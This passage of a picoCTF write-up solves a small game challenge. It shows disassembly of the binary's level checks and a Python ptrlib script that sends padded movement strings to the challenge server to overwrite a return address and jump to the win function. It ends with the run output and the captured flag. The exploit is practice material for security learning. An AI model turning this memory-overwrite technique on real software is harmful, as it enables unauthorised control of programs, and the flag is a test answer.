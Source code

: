 ```bash
 80499c4:       83 c4 10                add    $0x10,%esp
 80499c7:       8b 85 58 f5 ff ff       mov    -0xaa8(%ebp),%eax
 80499cd:       83 f8 1d                cmp    $0x1d,%eax
 80499d0:       0f 85 2f ff ff ff       jne    8049905 <main+0x94>
 80499d6:       8b 85 5c f5 ff ff       mov    -0xaa4(%ebp),%eax
 80499dc:       83 f8 59                cmp    $0x59,%eax
 80499df:       0f 85 20 ff ff ff       jne    8049905 <main+0x94>
 80499e5:       8b 85 54 f5 ff ff       mov    -0xaac(%ebp),%eax
 80499eb:       83 f8 05                cmp    $0x5,%eax
 80499ee:       0f 85 11 ff ff ff       jne    8049905 <main+0x94>
 80499f4:       83 7d f4 04             cmpl   $0x4,-0xc(%ebp)
 80499f8:       0f 85 07 ff ff ff       jne    8049905 <main+0x94>
 80499fe:       83 ec 0c                sub    $0xc,%esp
 8049a01:       8d 85 54 f5 ff ff       lea    -0xaac(%ebp),%eax
 8049a07:       50                      push   %eax
 8049a08:       e8 af fd ff ff          call   80497bc <win>
~~~
```
It's the last minute, but you can jump to '0x80499fe'. 
Note that the return address is 4 * 16 bytes, but it can be specified by the same procedure. Do it all with the following exploit.py:  
```python
from ptrlib import *

elf = ELF("./game")
# sock = Process("./game")
sock = Socket("nc rhea.picoctf.net 51791")

sock.sendline("aaaaawwwaaaawsddddp") # -> level 2
sock.sendline("aaaaawwwaaaawsddddp") # -> level 3
sock.sendline("aaaaawwwaaaawsddddp") # -> level 4
sock.sendline("aaaaawwwaaaawsddddaa" + ("aaaa" * 12) + "l\x70w") # -> level 5
sock.sendline("aaaaawwwaaaawsddddaa" + ("aaaa" * 16) + "l\xfew") # -> win

sock.sh()
```
Execute.  
```bash
$ python exploit.py
[+] __init__: Successfully connected to rhea.picoctf.net:51791
~~~
..........................................................................................
.........................................................................................X
picoCTF{gamer_leveluP_5a39c266}
```
flag was displayed.
## picoCTF{gamer_leveluP_5a39c266}